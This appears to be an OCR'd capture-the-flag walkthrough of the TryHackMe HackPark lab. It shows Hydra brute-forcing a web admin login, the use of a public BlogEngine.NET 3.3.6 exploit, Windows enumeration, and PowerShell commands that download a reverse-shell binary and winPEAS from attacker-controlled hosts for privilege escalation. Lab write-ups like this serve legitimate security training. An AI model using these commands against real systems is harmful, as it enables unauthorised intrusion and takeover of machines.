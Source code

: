 
[STATUS] 576.00 tries/min, 576 tries in 00:01h, 14343823 to do in 415:03h, 16 active
[80][http-post-form] host: 10.10.246.210   login: admin   password: 1qaz2wsx
1 of 1 target successfully completed, 1 valid password found                                                                 
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-12-27 11:22:32  


once im inside the admin page, we can see that it is running on BlogEngine.NET 3.3.6
a quick search on exploitdb would lead us to the following public exploit that we can use
kali@kali:~/oscptraining/tryhackme/hackpack$ searchsploit -p aspx/webapps/46353.cs
  Exploit: BlogEngine.NET 3.3.6 - Directory Traversal / Remote Code Execution
      URL: https://www.exploit-db.com/exploits/46353
     Path: /usr/share/exploitdb/exploits/aspx/webapps/46353.cs
File Type: HTML document, ASCII text, with CRLF line terminators

kali@kali:~/oscptraining/tryhackme/hackpack$ cp /usr/share/exploitdb/exploits/aspx/webapps/46353.cs .

Path traversal vulnerability 

follow the instructions and we are in!

lets enumerate the machine...


c:\windows\system32\inetsrv>whoami
iis apppool\blog
systeminfo
c:\windows\system32\inetsrv>systeminfo
Host Name:                 HACKPARK
OS Name:                   Microsoft Windows Server 2012 R2 Standard
OS Version:                6.3.9600 N/A Build 9600


trying upgrade our reverse shell to a full reverseshell
powershell Invoke-WebRequest -Uri http://10.4.24.92:8000/reverse.exe -Outfile reverse.exe

get winpeas in 

powershell Invoke-WebRequest -Uri http://10.8.102.117:80/oscptraining/winpeas.bat -Outfile 'C:\Windows\Temp\winpeas.bat'


We are able to see windowsscheduler running so lets go

C:\Windows>cd C:\Program Files (x86)\SystemScheduler                                                                  
dir                                                                                                                   
C:\Program Files (x86)\SystemScheduler>dir                                                                            
 Volume in drive C has no label.                                                                                      
 Volume Serial Number is 0E97-C552                                                                                    
 Directory of C:\Program Files (x86)\SystemScheduler                                                                  
08/04/2019  04:37 AM    <DIR>          .                                                                              
08/04/2019  04:37 AM    <DIR>          ..                                                                             
05/17/2007  01:47 PM             1,150 alarmclock.ico                                                                 
08/31/2003  12:06 PM               766 clock.ico                                                                      
08/31/2003  12:06 PM            80,856 ding.wav                                                                       
05/04/2021  08:51 AM    <DIR>          Events                                                                         
08/04/2019  04:36 AM                60 Forum.url                                                                      
01/08/2009  08:21 PM         1,637,972 libeay32.dll                                                                   
11/16/2004  12:16 AM             9,813 License.txt                                                                    
05/04/2021  07:23 AM             1,496 LogFile.txt                                                                    
05/04/2021  07:24 AM             3,760 LogfileAdvanced.txt                                                            
03/25/2018  10:58 AM           536,992 Message.exe                                                                    
03/25/2018  10:59 AM           445,344 PlaySound.exe                                                                  
03/25/2018  10:58 AM            27,040 PlayWAV.exe                                                                    
08/04/2019  03:05 PM               149 Preferences.ini                                                                
03/25/2018  10:58 AM           485,792 Privilege.exe                                                                  
03/24/2018  12:09 PM            10,100 ReadMe.txt                                                                     
03/25/2018  10:58 AM           112,544 RunNow.exe                                                                     
03/25/2018  10:59 AM            40,352 sc32.exe                                                                       
08/31/2003  12:06 PM               766 schedule.ico                                                                   